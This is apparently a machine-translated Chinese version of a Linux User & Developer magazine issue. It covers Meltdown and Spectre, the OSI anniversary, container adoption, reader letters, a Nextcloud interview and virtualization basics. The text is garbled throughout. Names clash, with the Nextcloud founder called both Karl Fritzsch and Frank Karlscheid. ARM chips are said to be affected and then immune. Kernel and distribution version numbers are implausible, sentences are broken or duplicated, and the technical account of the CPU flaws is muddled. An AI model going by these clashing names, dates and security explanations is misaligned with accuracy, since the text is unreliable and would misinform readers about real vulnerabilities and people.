# Linux 用户与开发者 188 - 系统虚拟化 188


你知道吗？用于造纸和许多其他产品的欧洲森林在过去 10 年中增加了 44,000 平方公里？这相当于每天增加了超过 1,500 个足球场面积！†

`Two Sides`是一项促进负责任使用印刷和纸张的全球倡议。如果源自经过认证或可持续管理的森林，纸张是一种独特且强大的自然传播媒介。

有很多完美的理由让我们 `#热爱纸`。现在就发现：`twosides.info`

## 欢迎

阅读 `Linux User & Developer` 第 188 期

### 编辑部

`Chris Thorne`

`chris.thorne@linuxuser.com`

设计师 `Dean Webber`

制作编辑 `Ed Richards`

总编 `John Graham Barrow`

高级编辑 `Jo Gulliver`

**贡献者**

`Dan Ahmed`, `Michael Bedford`, `Jozy Maynard`, `Neil Backforth`, `David Elston`, `Steven Thomas`, `Tim Casillo Grona`, `John Mason`, `Martin Coleman`, `Rahman Mayash`, `Alexander Evans`

客户总监 `Andrew Trevor`

`steven@futuremedia.com`

客户总监 `Richard Colplin`

`richard.marketing@futuremedia.com`


欢迎阅读这份英国和北美最喜爱的 Linux 开源（`FOSS`）杂志。

在 `Spectre` 和 `Meltdown` 的风暴中，我们必须向那些快速创建新功能以帮助用户免受这些漏洞侵害的人们致敬。这是一项值得庆祝的艰巨任务。在杂志的核心部分，我们需要这样的内容——专栏作家 `Jon Masters` 本月撰写了一篇深度专栏来应对这些漏洞。多么大的挑战！

在杂志的其他部分，我们希望让你的生活压力减轻，包括一份成为虚拟化高级用户的指南（第 18 页）——一篇关于档案保护的重要性以及如何防止小偷盗用科技设备的文章（第 58 页）。我们的主访对象是 `Nextcloud` 创始人 `Karl Fritzsch`，探讨 `Nextcloud 13` 中端到端加密的未来。

作为常设栏目，“`Practical`”重点介绍了 `Metasploit` 和 `Racket` 编程语言。在“`Practical`”中，我们有一些关于 `Rubber Duck` 破解的内容，并使用 `Numpy` 来保护你的 `Python` 代码。享受其中！`Chris Thorne`，编辑

发送邮件至：`contact@linuxuser.co.uk`

或电话订购：`0800 668 8888`

或短信订购：`87988 66888`

或在线订阅：`www.linuxuser.co.uk`

由 `Heatline Masters` 发行

由 `US & UK Craft` 

项目经理 `Scott Marshall`

设计总监 `James Edwards`

数字内容 `James House`

**管理**

执行董事 `Aaron Asadi`

执行董事 `Paul Newton`

艺术与设计总监 `Ian Jervis`

`Waterberbury, Station's Road`

`Cambridge, CB1AE`

`Market House, Canary Wharf, London E14`

`LinuxUser` 是一本免费杂志。本期杂志由 `International Licensing Limited` 的广告和赞助支持。未经 `Future PLC` 的书面许可，`Future PLC` 在英格兰和威尔士注册（公司号 `02791433`）。注册地址：`25 Canada Square, London, E14 8AD`。`Future PLC` 对本期的任何错误或不准确之处负责。文中观点不一定代表 `Future PLC` 的观点。我们对广告中包含的任何内容负责。保留所有权利。

- `lux@futuremedia.com`

- `facebook.com/LinuxUser`

- `Twitter @linuxusermag`

`futuremagazines.co.uk`

纸质版可节省高达 20%！详情见第 30 页。


## 编辑

首席执行官 `Elizabeth Bryan-Smith`

首席财务官 `Leslie-Duncan`

电话 `+44 20 734 6000`

3


## `InspireOS`

第 188 期 2018

## `Practical` 树莓派

## 封底

- 68 树莓派项目：`Peter Monaco` 解释了他如何基于树莓派制作了自己的家庭自动化控制触摸屏，包括仅需少量脚本即可实现的“`Rubber Duck`” `USB` 黑客设备

- 96 顶级开源项目：今年范围内范围内全球的软件

- 81 分组测试：轻量级 Web 服务器：对于我们不需要全服务器的人来说，这四种中哪个表现最好 |

- 70 远程硬件设备：只需少量脚本即可将你的树莓派变成基于 `USB` 的“`Rubber Duck`”黑客设备

- 86 `Varideisk Pro Plus 36` 黑色：人体工程学立学桌承诺各种健康好处。我们需要对这款昂贵的设备进行测试

- 74 温度显示：结合 `LED`、触摸按钮和传感器读数

- 88 `ReactOS 4.7`：一种为 `Windows` 美学设计的操作系统……等等！这个非 Linux 系统有很多

- 78 Python 者的剃刀：想要提高 `Python` 代码的性能吗？使用 `Numpy` 加速——无论选择如何

- 90 新鲜 `FOSS`：`Flickr` 客户端 1.4、媒体播放器 `mpv 0.28` 以及图像编辑器 `Fotox 18.01`





### Linux 受到 `Meltdown` 和 `Spectre` 安全漏洞的影响

无论是 `Intel` 还是 `AMD`，所有系统都面临风险，且补丁过程可能非常痛苦。

`Meltdown` 和 `Spectre` 因其是过去 20 年来发现的最严重漏洞而成为全球头条。如果你使用的是过去 20 年内制造的 `CPU` 的设备，那么你几乎肯定受到了影响。整个 12 月关于 `Intel CPU` 问题的传闻不断传出，其可能产生的影响规模是无法预测的。更波折的是，由于一个“兄弟级”漏洞，甚至 `AMD`（以及某些 `ARM`）`CPU` 也与 `Spectre` 一起面临风险，这很显然表明这是一个真实的威胁。`Spectre` 利用了 `CPU` 中乱序指令执行的一个漏洞。这在本质上是 `CPU` 在等待从 `RAM` 接收大量数据时，继续处理少量数据（乱序执行）的一种方法。如果有必要，必须丢弃已经处理的数据。



`Meltdown` 最初由 `Google Project Zero` 在 2017 年年中发现，并被另外两组研究人员独立检测到。通过利用推测处理数据与检查之间的延迟，研究人员发现可以在没有密码或加密密钥的情况下读取内核，且虚拟化并不会产生影响。

`Intel` 和 `AMD` 芯片以及 `ARM` 处理器都受到了影响。对于攻击者来说很难实现，但防御也同样困难。`Spectre` 强制通过推测执行泄露数据；研究人员已通过原生代码和 `JavaScript` 实现这一点。


在进入公共领域时，`Linux`、`macOS` 和 `Windows` 都在几周内通过修复或补丁接收了修复漏洞的更新。将内核与 `Meltdown` 漏洞及任何读取数据的攻击尝试进行隔离，其副作用是导致在某些情况下，你的 PC 性能下降高达 30%。

后者意味着沙箱机制被绕过，这本身就是一个大问题。

更糟糕的是，在微软发布修复程序后，某些 `AMD` 系统仍在等待补丁。该行业正受到驱动程序不稳定的影响，而 `Intel` 无需担心 `Intel` 或 `Broad` CPU 上的 `Spectre`。不过，`Intel` 的建议很简单：“用户应继续应用其系统和操作系统提供者推荐的更新。”



树莓派等基于 `ARM` 的设备对这些问题免疫——尽管并非所有的 `Linux` 用户都应该等到他们的发行版发布带有补丁的 `4.1.14` 内核稳定版本——原因是 `Linux` 开发者一直不知情。正如稳定分支维护者 `Greg King` 所观察到的：“对我来说，这需要很长时间才能修复。”

距离“开源”这一术语首次诞生已经二十年了。

作为一个教育和倡导组织，旨在促进开放开发，并在其 20 周年之际承担了额外的使命。`OSI` 于 1998 年 2 月在加利福尼亚州帕罗托成立，它是在创建“开源”概念的策略期间产生的成果。

在 1998 年，格局完全不同。开源的概念、共享代码以供重用和修改、甚至是自由软件，对人类来说已经完全失传，对其他人来说只是一个边缘现实。然而，感谢于 `Linux` 和开源倡议组织（`Open Source Initiative`）的努力，我们生活在一个不断向集体行动的世界。

* 长期被视为开源敌手的微软于 2017 年作为高级赞助商加入了开源倡议组织。

源自 `Bruce Prence` 编写的 `Debian` 自由软件指南以及在年度会议上的精炼建议，开源倡议组织被 `OSI` 采纳并引入了 `FOSS`（自由和开源软件）和 `FOSS`（自由和开源）术语。由 `Nick Vidal` 设计，1998 年 11 月，`OSI` 的“钥匙孔”标志出现在软件中。

将其描述为所有参与技术的人的重大里程碑，`OSI` 正在以这种方式庆祝这一周年，并在一年内组织了多次活动，包括最大的开源会议和全球协作。

该网站提供了各种方式来参与纪念，并分享那些让开源成为宝贵资产的重要成就和贡献。

`ISCDA`、`OSCON`、`Open Source Summit`、`FOSSaia`、`Campus Party` 和 `Linux.com` 在全年不同时间举行。

开源本身已经启动，你可以在 `https://opensource.org/events` 找到活动地图的详情。该网站展示了参与纪念的各种方式，以及加入国际开源开发者和专家网络，分享让他们开源成为宝贵资产的故事。

> 你可以在 `https://opensource.org` 了解更多关于 `OSI` 的信息。

* 长期被视为开源敌手的微软于 2017 年作为高级赞助商加入了开源倡议组织。

* 包含了改进的 `DPI` 支持——在苹果术语中被称为“视网膜显示”。

* 稳定发布 (5)

* 开发 (5)

> 性能、成本效益、可扩展性和速度——这些因素已经促使 42% 的企业进入容器的初级阶段。

### IT 行业将如何推动容器世界的采用

根据 `451` 的预测，随着云转型浪潮在 2020 年将达到 7 万亿美元，由于企业通过创新利用这些优势，这一趋势将持续下去。

然而，仍然存在重大的障碍和误解需要克服。例如，围绕应用安全性的挑战对未来具有重要影响。行业将关注可移植性和兼容性。

容器可移植性的增长尚不确定，而且对技术的兴趣与实际需求之间尚未建立联系。这是一个行业将解决的可以理解的现实。

尽管围绕着“容器原生”的炒作不断，但该技术仍处于企业尚未完全说服的阶段，许多 `CIO` 和经理仍在挣扎确保该技术是正确的选择。现在还处于早期阶段，因此，投资人们仍然持谨慎态度，毕竟任何新技术都伴随着风险。

此时，重要的是，这并不是一个新行业。许多供应商在创建重要事物方面已取得了巨大进展。例如，微软最近宣布了 `Kubernetes` 部署的包，以及对容器工作流的扩展支持。`VMware` 的 `Weave` 为企业在多个平台上提供了一致的安全性和 `Kubernetes` 服务。

然而，兼容性问题对开发者来说仍然常见，特别是在需要互操作性以维持最佳性能的企业级部署中。此外，可移植性是容器经常被引用的优势，但它仍然受到很大限制，例如无法为一个平台构建的容器运行在另一个平台上。这也是老旧的兼容问题。

将容器从一个操作系统迁移到另一个操作系统（从 `Windows` 迁移到 `Linux`）也是复杂的，也是任何系统组合下开发者经常头疼的问题。

显然，整个行业需要更多关注兼容性和可移植性，以启动容器的广泛采用。

容器可移植性的现实远低于许多供应商所认为的。大多数企业在引入容器技术方面面临着巨大挑战。

容器环境更高的标准至关重要。容器环境的创建

> 容器可移植性的现实远低于许多供应商所认为的

意味着用户将不必担心互操作性，并且能够与来自任何供应商的容器进行交互。

各种行业机构已经到位以实现这一目标，例如开放容器倡议 (`OCI`)，它正在为容器格式、运行时以及容器环境的其他方面创建开放标准。

这可能正在实现，但仍有更多工作要做。`Canonical` 与 `AWS`、`Google` 和 `Oracle` 等公司合作，在这些平台上支持 `Ubuntu` 容器，这种协作将是引导未来社区并帮助容器世界从混沌演变为广泛采用的关键。

`Marco Ceppi` 

是 `Canonical` 的 `Ubuntu` 产品经理，过去几年一直都在开发和系统管理领域从事专业工作。


`您的 Linux 新闻与观点来源`

# 读者评论

## 关于魔术、Linux 和开源的问题与意见

`Ada Ada` 将在本期中出现。哪些编程语言正满足你的需求？渴望学习量子编程吗，还是觉得 `Free Pascal` 让你应接不暇？


亲爱的 `Lu&D`，我想建议 `Linux User and Developer` 介绍 `Free Pascal` 和 `Ada` 编程语言。`Free Pascal` 最近引起了复兴，并有一个可以目标 `ARM` 以及 `x86` 的编译器，以及一个名为 `Lazarus` 的免费 `IDE`。

`Ada` 继续作为 `GCC` 的一部分，以安全为导向；因此程序可以目标 `GCC` 支持的任何平台，并有一个名为 `GNAT Studio` 的 `IDE`。

包括 `Mint`、`Manjaro` 和 `Fedora`，其中没有一个持续超过一个月。我认为这种简短的生活是因为感到如鱼离水或有不现实的期望。习惯了 `Windows 7` 到 `Windows 10`（我们不提 `Windows 8`），发现自己在 `Linux` 方面突然离开了舒适区。

到为止，我已经测试了 `Ubuntu` 几个月（这是我的 `Linux` 记录），并且可能会升级到 `Ubuntu 18.04`。在不需要修复服务器的情况下，我几乎获得了我需要的一切——只需点击——如 `LibreOffice` 办公件、`Firefox`、`Chromium`、`Telegram` 以及 `Rhythms` 都在良好工作。

在此期间，当我面临障碍时，我不得不体验挑战，特别是我开始注意到 `Linux OS` 对于那些硬件和软件需求不受 `Windows` 支配的人来说一直是最佳选择。

同时，我必须感谢那些为了我们的 `Linux` 世界变得更好而努力的无私人士。目前，我还有很多需要学习 `Linux` 以欣赏它。

## 与我们联系！

有什么想告诉我们的或者你有疑问吗？需要答案吗？请发送邮件至 `linuxuser@future.com`

`Chris`: 谢谢，`Noel`。我们一直在关注哪些语言涵盖未来——我们很快就会进入一个系列。`John Go` 和我正在讨论运行 `Ada` 的入门指南在其实用性。你怎么看？

## 自由的代价

亲爱的 `Lu&D`，我在很短的时间内使用不同的发行版尝试过 `Linux OS`。

10

# 关注我们

`Facebook`:

`facebook.com/LinuxUserUK`

`Twitter`:

`@linuxusermag`


### Chris

多么礼貌的问候。谢谢，你也是。我们在 `TechRadar Pro` 上看到的那些故事在争夺目光方面表现良好。我们大部分时间都在发布“启发性开源”系列和老经典——我想是最后一个关于 `ZeroPhone` 的项目——看到 `Linux User and Developer` 的名字出现在纸质页面之外很棒，因为我们努力每个月提供一份精彩的读物。

当然，你必须体验它，但“免费”仍然伴随着“变化”。有一些更容易使用的优秀发行版，但与竞争对手相比仍然具有挑战性。

关于学习更多开源，如果你不怕 `Linux`，`LUDB` 杂志可能是最好的起点。我们无法与互联网每秒挤出的海量信息竞争，但我们希望给你一个在忙碌月份停下来阅读高质量 `Linux` 的机会。

### Jonathan

谢谢你的来信，我想你正为几个月后 `Ubuntu 'Bionic Beaver' 18.04` 的发布做准备。这将是我们看到 `Ubuntu` 经常考虑“变化”的发布版本。

我不认为我们很快推出 `LUDB` 频道是个秘密，所以我们将收到你们的大量反馈。每天夜，以及来自 `LUDB` 和其他在“Snapping Pixie Tuesdays”发表的 `Linux` 出版的经典发行版。

现在有比 `Ubuntu` 更好的优秀发行版。除了 `Elementary OS`，`Linux Mint`、`Manjaro` 和 `Solus` 都在这里，`Linux` 用户从未如此幸运！

至于教程，我们将任何查询直接导向《Essential Ubuntu》，该课程正在进行中。`GNU` 系列在本期结束，但 `Linux` 教程现在将继续。只需在通常地址向我们发送邮件：`linuxuser@future.com`，我们会为帮助像你这样的人感到很愉快！

## 感谢

亲爱的 `Lu&D`，听到你们在名为 `TechRadar` 的网站上有优秀的出版物，并且对技术感兴趣，我想向 `Linux User and Developer` 寻求建议。我想了解更多杂志介绍的开源项目。虽然我还没有读过实际杂志，但我已经发现内容有趣。

我祝贺杂志，感谢你们为我们对 `Linux` 的提供的知识。我愿意了解更多关于杂志和 `Linux` 的发展。提示和教程对我非常有吸引。谢谢！


**@iRunSmartPhil:**

非常感谢分享 `#LinuxUsermag` 以及最新的 `#Linux_Mint_3.3`，作为一个 `@windsimimiler` 我用了一个很好的发行版，我想看看 `#challenging` 的细节报告效果如何。

关注我们

**@LinuxUserMag**



使用 `GNU` 构建程序的介绍



仅需一个矩形的 `Linux` 桌面即可完成制作，简单且可以实现

我们访谈了 `Nextcloud`，`Frank Karlscheid` 讲述了他最初创建一个尊重隐私的“开源 `Dropbox`”的构想。

> `Nextcloud` 已被誉为许多专有云文件和共享服务的自托管、开源替代方案。但该项目植根于 `opencloud`，一直怀有宏大的目标。在过去的一年里，它发布了一系列更新，巩固了其安全协作平台。`Nextcloud` 董事总经理 `Frank Karlscheid` 和市场经理 `Jos Poortliet` 同意讨论该项目最新的协作功能：`Nextcloud Talk`。

我之前在 `KDE` 项目中，当然，`KDE` 是一个包含所有这些安全和数据保护等理念的自由 `Linux` 桌面系统。

但在那时，我注意到越来越多使用 `Linux` 的人通过云服务将数据导入到 `Dropbox`。他们使用 `Gmail`。他们使用 `Facebook`（`https://facebook.com`）以及各种其他服务。我在想：“嗯，也许拥有一个免费、开源的客户端很酷，但如果有趣的内容发生在服务器端，那么自由又在何处呢？”

所以当时的想法是，`Linux` 桌面应该与一个免费、开源、自主控制的服务器相结合。这就是最初的想法。

**Frank Karlscheid:** 当然，这机机真的非常好，因为我一直在思考 `Nextcloud` —— `Jos`，如果我记错了请纠正我，我记得 `Nextcloud` 是 `opencloud` 的生日吧，对吗？还是别的什么？

所以多年前，我宣布了 `opencloud`。当时还没有给这个东西命名，所以我称它为“开源 `Dropbox`”，那是一个电梯式项目——开源服务器，带有所有客户端——一切。当然，它是免费的，这是主要的区别。它没有中心化服务，但你可以把它放在任何机器或你租用的机器上，或者像你所信任的某些托管中心那样的。

你在 `opencloud` 和 `Nextcloud` 上的投入或已完成的工作，很大程度上受到了你在 `KDE` 工作期间经验的影响吗？

**FK:** 很多。我参与 `KDE` 有很长时间。我在那里担任过几年的董事成员，我学习了 `15` 年开源社区是如何运作的，`KDE` 是其中一个志愿者驱动的发展优于企业赞助的案例，但这是一段旅程。

所以这没有真正的捷径可绕过。它不像其他由公司开发然后发布的开源方式，即最后发布一个版本，然后说：“看，那是免费软件。”或者当然，它确实免费软件，但它不是像 `Android` 那样以协作、开源的方式实现的：`Android` 虽然有源码，但只是从 `Go` 开始运行的。

这就是在从过去十年的中期到后期，我所学到的这套开源机制是如何运作的。来自世界各地的成千上万人通过互联网，产出一个更好的开源产品，这在很多方面都比公司能产出的要好。对我来说是这样，而且，`Jos`，我不想替你说话，但我想：

**Frank Karlscheid** 是 `Nextcloud` 和 `opencloud` 项目的创始人，参与了多个自由软件项目，曾担任 `KDE` 的副主席。

**Jos Poortliet** 是 `Nextcloud` 的市场与传播经理，也是 `KDE` 团队的领先成员。


上述 `Nextcloud` 的功能方式与 `Dropbox` 等类似，它们很相似。你们的做法对我们的 `openCloud` 有了一点启发。`Nextcloud` 以像 `Dropbox` 一样的方式运行，它是类似的。然后后来它是完全开放的，包含了文件同步和所有功能。我们有来自世界各地的许多贡献者，你们的做法无疑是一种启发。

### 也许我可能会问你一个可能的问题，你认为 `Nextcloud` 是一个桌面平台吗？

**FK:** 很好，我们正在移动到有趣的问题。我会尝试填补这个空白——`Nextcloud` 它是如何变成现在的，然后——基本上，`Nextcloud` 现在是这个想法的继任者，这不仅仅是文件同步和共享。更多是协作。很多功能，在其他情况下，它在云端运行。

那么它与桌面的连接如何？你会说是还是否？在那种情况下，一个云服务有一个桌面客户端，我们有 `Android` 和 `iOS` 的客户端，但它们还不充分。另一方面，我认为这些东西现在都应该在一起。如果我告诉人们（在很多年前之前），他们会问：“你在做什么？”所以如果你使用电脑，或者使用手机，或者使用平板电脑，那么到最后，这种用户体验将客户端和软件连接在一起。在某种方式上，它是移动和桌面体验的一部分。

**Jos:** 我记得 `2014` 年我们非常开心的想法之一是，进入 `KDE` 的语境。例如，我们想要能够同步你的设置——面板以及你的其他应用程序，并在云端进行同步。你可以使用你的笔记本电脑，然后你会得到那些设置，你的账户也能工作。

**FK:** 而且 `Nextcloud` 不仅仅是软件。这是一种不同的。`Nextcloud` 最有趣的事情之一是，我们推出了 `iOS` 和 `Android` 的原生应用——它们在平板和手机上运行。所以在 `iOS` 上，你有灵活性允许 `iOS` 和 `Android` 集成原生应用。所以基本上你选择一个人，然后服务器。你点击通话按钮，应用打开了。你叫其他人，也可以视频通话。这一切都是通过 `Nextcloud` 和服务器完成的，包含了所有元数据。所以基本上这非常有趣，对于用户体验，正如你提到的，我不知道它是什么。是移动应用吗？是服务器应用？还是桌面应用？我想它都是整合在一起的。

> 用户体验现在将客户端和软件连接在一起。上述 `Nextcloud` 是 `Talk` 功能以及它对生态系统的集成。

你的 `Linux` 新闻以及快速推进 `Nextcloud box`。`Nextcloud` 可能没有开发自有硬件的计划，但 `Purism` 打算在其 `Librem 5` 手机中包含 `Nextcloud`，正如我们将在 `Librem 5` 笔记本电脑上做的那样。显然，运行完全自由软件的 `Nextcloud`。

**JP:** 这关乎功能。我们需要沟通与人们交流。我的意思是人们说：“你们为什么不在 `Nextcloud` 中集成通话？为什么不集成 `Matrix`（一种通信协议）和其他东西？”因为你可以发消息，然后在群组里评论，或者点击头像开始通话。这在手机上可以运行，但你必须切换过去开始通话，这是一个退步。人们想要这个。


## 目标与路线图

我们仍然需要与社区和所有人讨论。最终，通过 `Nextcloud`，我们希望成为 `Office365` 和 `Office` 套件的真正竞争对手，但是 `100%` 开源且 `100%` 自托管。这可能是我们未来几个月和几年的目标。

在实现这一点之前，是否有某些功能是你搁置的？

`JP`: 有，那就是端到端加密。正如提到的，有一些我们一直想做的……我不知道。人们一直在要求，但我们才开始研究它。所以我们引导了它很长时间，但并不确定如何正确实现，而且我们还没有，这意味着我们没有网页界面。所以我们一直在思考如何在丢失平台协作和共享的情况下使用所有加密。

去年我们似乎是从某些功能开始的。你希望的关键目标是什么？ `2018` 年的目标是什么？

`FK`: 这是一个很好的问题。我们可以从不同层面来回答。显然，这是一项艰巨的任务，对于 `Nextcloud` 来说，这是一个非常协作的努力和共享，这非常重要。通过 `Nextcloud Talk`，这就是聊天和视频通话的领域。

上次，我们开始获取 `socket`，所以我们对如何实现它有一些想法。它是基于用户的。所以你可以针对你个人进行端到端加密，而不是对它进行加密。但如果你丢失了手机，你不会丢失数据中的所有文件。然后你可以说：“好的，我要打个电话。我会和其他人在线协作，与某人分享对话，然后当我回来时，我会把它移动到我的端到端加密文件夹中。”

然后我们[有了]了群组加密，比如联系人和邮件——我们基本上想要投资的，从这个角度来看，非常棒。因为我们在两个月前已经开发了服务器端加密版本。

对于 `2018` 年，`Nextcloud` 是 `13` 版本。我们已经处于 `beta` 阶段。这会带来很多改进。这对我们来说是需要的。端到端加密功能是目前请求最高的功能之一，它随 `Nextcloud 13` 发布。之后，我们对 `14` 没有任何实际计划。意味着，`14` 也会到来——我们尝试快速迭代。

服务器端加密的一个点是，如果你丢失了手机，你不需要重新加密，但我们用一个密钥加密文件，然后用公钥对密钥进行加密。所以当你得到新手机时，你不需要重新加密文件，我们在端到端加密中唯一的相同机制就是必须上传整个文件夹以及可能的几个 `GB` 的数据，仅仅因为你和其他人分享了。

## Meltdown 与 Spectre 漏洞解析

`Jon Masters` 总结了 Linux 内核内部正在进行的努力，以缓解最近发现的 `Meltdown`（熔融漏洞）和 `Spectre`（幽态漏洞）。

除非你过去几周一直住在山洞里，否则你可能已经已经在许多处理器中发现了这几个新的安全漏洞。`"Meltdown"` 和 `"Spectre"` 这两个名字引起了媒体的广泛关注，尽管它们有自己的名称。但除非你不使用 Linux 内核或应用程序，处理器必须安排从更大的 `RAM`（内存）中加载值。虽然 `RAM` 很快，但远没有处理器的速度，它可以并行执行数百条指令；因为这些指令是立即存储在指令（`i`）缓存中的。

因此，处理器会预测分支将走向何处并进行推测执行，对寄存器和内存（架构状态）的更改被存储在临时结构中，如果推测结果是错误的，处理器简单地丢弃这些更改，而处理器的“架构”状态保持不变。这种技术是推测执行的内置特性，直到最近，推测过程的行为像一个“黑盒”，细节上似乎是不可能的理解。


`Jon Masters` 是一位 Linux 内核黑客，已经在内核领域工作了 `22` 年。自从他的职业生涯开始以来，工业界在许多高性能处理器中存在推测执行的常见做法。特别地，其中一种被称为“推测执行”的漏洞，允许处理器在知道是否实际上需要运行之前就执行代码。一个常见的例子是发生在软件分支中的，例如 `if` 语句。这些分支控制流将程序带向几个可能的方向。

`Meltdown`（以及 `Spectre`）利用了处理器内部这个“黑盒”并不保证真实的这一事实。在推测期间，可能通过间接方法观察其操作，这被称为侧信道。这些漏洞被称为缓存侧信道攻击，因为它们利用了数据跨多个应用程序缓存的事实。由于这些缓存是共享资源，每个人都想使用缓存的一部分。缓存条目被用作虚拟内存，由应用程序查找。

如果你有一个条件，例如 `if`（分支）那么：首先确定分支的值（真或假）。然后该值可能立即对处理器的快速（但非常小的）内部内存 `L1`（`i`）缓存可用，但很多时候它并不是立即已知的（缺失）。由于推测被假设是不可见的，无论加载是否发生似乎并不重要，只要程序员从未察觉到它。

在随后的泄露中，另一段代码执行进行内存访问。这种结构可以帮助防止访问，但其地址基于第一个分支的内容。因此，第二个分支的缓存条目被填充，而其地址通过受保护的数据计时被泄露。此外，当存在缓存中时访问内存更快是一个事实，这正是它的核心点。如此，事实上应用程序可以对内存进行计时，并从中推断出结果。如果这听起来很复杂，你不需要考虑几秒钟。

相反，在共享相同缓存的代码段之间可以形成侧信道。一段代码可以获取缓存，而另一段代码正在加载它们。其中一段代码可以在无法直接访问数据的情况下推断出其他信息。关于侧信道攻击的模式已经编写，直到最近重点关注使用缓存来测量程序的行为，而不需要任何特定的点。


正确的，`Meltdown` 和 `Spectre` 带有自己的逻辑缺陷，这归功于设计者 `Natasha Ebit`。在这里概述关于“页面大小”的研究及其对缓存关联性的影响——如果你对了解更多此类信息感兴趣，要求是完全可控的——通过特殊指令，或简单地访问任何已知的相同缓存条目。此外，当数据在缓存中时访问内存更快是事实。

`Meltdown` 揭示了处理器中一个“竞态条件”下的漏洞，可以在不知道访问是否允许的情况下读取数据。在 `Linux` 等现代操作系统中，每个应用程序都有自己的包含内核内存的地址空间，直到最近，处理器包含一个内存管理单元（`MMU`），防止应用程序从内核内存加载。每当处理器执行代码时，它可能需要从缓存或内存位置获取数据供应用程序加载变量。事实是，只要安全检查有效，访问就会提交；应用于上游 `Linux` 的针对 `Meltdown` 的缓解措施消除了这些条件，但增加了一些开销。

推测执行的执行是指处理器随后根据显著收益进行分支。分支预测的准确率之高，超过 `99%` 的准确率并不罕见。根据攻击的类型，有更多方法，它可能会使用大量进程之前运行的历史数据。也可以通过使用虚拟（应用程序）内存中的分支预测器地址来索引“分支预测器”内部的数据结构。由于性能考虑，此索引可能不是唯一的，而可能只是分支地址的顺序位（低位）。这意味着系统中的其他分支可能会与此预测器发生“碰撞”。通常情况下，碰撞的潜力很低，但在某些设计中，故意碰撞的风险并非零。在 `Spectre` 变体 `2` 的情况下，这允许一个应用程序训练预测器，使其假设某些分支地址将导致“间接”分支（跳转到指针的跳转），因为可能导致间接分支的地址预测跳转到任何任意地址。通过在一个架构、内核或虚拟机监管理程序（`Hypervisor`）内部编写精心的滥用指令序列，这允许内核代码段被用作它们想要的任何代码，然后它们完全执行整个序列，由更高权限的代码来训练间接预测器，通常使用共享缓存作为侧信道来感染其内容。这种攻击很容易实现，它在某种程度上揭示了受害者代码的价值以及其广泛的影响。来自浏览器沙箱的研究员 `Jason Sommerfield` 已经证明了 `Spectre` 变体 `2` 的间接利用，这将是严重的。

一种相关的攻击，`Spectre` 变体 `1` 利用了条件分支的第二部分被用于确定第一部分是否在范围内这一事实。这是因为边界检查通常在值实际加载之前执行。

## 虚拟化技术概览

- 学习创建虚拟硬件并使用它来运行虚拟机，这些虚拟机可以像操作系统一样发生故障。
- 创建和对关键功能创建快照的能力，这是虚拟化解决方案的标志。
- 掌握将虚拟机迁移到另一台设备的艺术，以确保灵活性，即使在灾难发生时也是如此。
- 使用容器运行安全的应用程序实例，类似于虚拟机，但开销仅为虚拟机的一小部分。

虚拟化是正在企业级和高级用户桌面上留下足迹的关键技术之一。

> 虚拟化是已经存在数十年的许多技术之一。灵活性和性能是使其如此的几个主要因素。在企业中，它通过通过减少“裸机服务器”的数量来合并服务器，从而实现了节能并提高了硬件利用率。虚拟化还用于隔离服务，通过使用一台服务器运行多个应用程序，这样如果其中一个出现漏洞，就不会影响其他。

使用预构建模板或镜像创建虚拟机，其所需的时间比部署一个裸机系统的时间要短得多。同样，虚拟化允许你对虚拟机创建快照，以便在需要时快速部署。如今，虚拟化解决方案是硬件辅助的，可以提供近乎原生的性能，而以前传统的、基于软件的仿真技术是缓慢的。创建虚拟机的主要程序称为虚拟机监控程序（`hypervisor`）或底层监控。虚拟机监控程序可以基于两个基本标准：虚拟化的硬件数量以及对客体系统所做的修改。考虑到这一点，两个

即使对于小规模设置，虚拟化也有助于加速服务器的部署。你可以生成一个最的虚拟机，最流行的技术是全虚拟化和半虚拟化。

全虚拟化是指客体操作系统与模拟的硬件接口交互。虚拟化软件为客体操作系统创建一个模拟的硬件设备，客体操作系统并不知道自己运行在虚拟硬件而非原生硬件上。全虚拟化的优势在于不需要进行任何修改，因为它对底层主机系统具有独占访问权限。


缺点是，虚拟机监控程序需要在发送到物理设备之前处理所有请求，这导致性能较慢且 CPU 占用较高。流行的 Linux 全虚拟化解决方案包括 `KVM`、`QEMU` 和 `VirtualBox`。`KVM` – 基于内核的虚拟机 – 使用提供的现代虚拟化功能硬件（`Intel VT-X`, `AMD-V`），简单地将 Linux 内核转换为虚拟机监控程序，通过一个名为 `QEMU` 的用户态应用程序对任何磁盘或网卡进行操作。

全虚拟化带有大量的开销，使其变得相当低效。这就是半虚拟化大显异彩的地方。在这里软件修改硬件环境，然后我们就有了一种方法让客体直接访问系统资源。在半虚拟化下，客体操作系统的内核被修改以识别虚拟化软件层。由于半虚拟化修改了操作系统，它也被称为操作系统辅助的虚拟化。良好的性能和效率是这种类型虚拟化的标志。

Linux 容器采用了非常相似的方法来部署相关实例。虽然虚拟化及其虚拟机监控程序抽象了硬件，但容器提供了隔离和安全。难怪 Linux 容器程序（如流行的 `Docker`）正越来越多地结合传统的虚拟化一起使用。

